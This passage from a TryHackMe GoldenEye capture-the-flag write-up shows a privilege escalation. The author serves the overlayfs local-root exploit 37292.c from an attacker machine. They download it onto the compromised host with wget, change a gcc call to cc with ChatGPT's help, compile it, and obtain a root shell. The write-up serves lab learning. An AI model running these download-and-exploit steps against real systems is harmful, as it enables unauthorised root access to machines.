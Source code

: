 ```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ sudo python3 -m http.server 8080
[sudo] password for bc-here:
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

#### **Injecting**
```sh
www-data@ubuntu:/tmp$ wget http://10.14.92.43:8080/37292.c
--2024-11-14 21:04:36--  http://10.14.92.43:8080/37292.c
Connecting to 10.14.92.43:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0s

2024-11-14 21:04:37 (605 MB/s) - '37292.c' saved [4968/4968]

www-data@ubuntu:/tmp$ ls
37292.c  linuxExploitSuggestor.sh  tinyspellgrrWs4
www-data@ubuntu:/tmp$ chmod +x 37292.c
www-data@ubuntu:/tmp$ ls
37292.c  linuxExploitSuggestor.sh  tinyspellgrrWs4
www-data@ubuntu:/tmp$ which gcc
www-data@ubuntu:/tmp$ which cc
/usr/bin/cc
www-data@ubuntu:/tmp$

```
- The hint was in the try hack me lab
- So there was no `gcc` in the remote terminal but there was  `cc` there 
- So we have to make the code suitable for `cc` 

**Changing Exploit**
- With the help of chatgpt I changed it

*From*
```c
lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```
*To*
```c
lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");

```
```sh
www-data@ubuntu:/tmp$ cc 37292.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# ls
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
```